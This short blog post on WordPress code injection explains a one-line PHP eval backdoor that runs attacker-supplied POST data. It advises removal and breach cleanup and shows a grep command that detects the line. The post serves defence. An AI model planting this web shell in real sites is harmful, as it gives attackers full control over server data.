 ```yaml
---
title: Code Injection Attacks in WordPress
date: 2017-07-05
---
```


tl;dr: If you find this line of code in any files of your WordPress install, get worried, **get rid of it immediately**.

```php
<?php @eval($_POST['@01']);?>
```

> With this line of code, the hacker will be able to **execute any code he wants**. Therefore this code will have the power to **read, update or delete any data he wants**.

> We don't know yet what code he will choose to execute because the code will be passed as a `$_POST` argument. The `$_POST[1]` argument will contain a string of executable code. Then, `eval()` will be called with this argument to execute that code.

> When the hacker will call your page, passing it some code as a POST argument, he will be performing an attack that is called **code injection**.

> Now that you know that, you have to figure out:

> 1. What **damage** has already been done in order to undo it, if possible?
> 2. What **security breach** allowed the hacker to add the "eval" code to your code base?

> If you decide to restore a backup, make sure the "eval" code is not already in your backup. Then, solve problem #2 because the hacker will probably just re-use the same security breach to restore his hack. Even if your backup is clean, the security breach will still be there.

```bash
# egrep -lri '@eval' .
./public_html/wp-content/_themes/business-one-page/404.php
```

Links
---
- [StackOverflow: What is the meaning of @eval($_POST[1])](https://stackoverflow.com/questions/36374420/what-is-the-meaning-of-eval-post1)
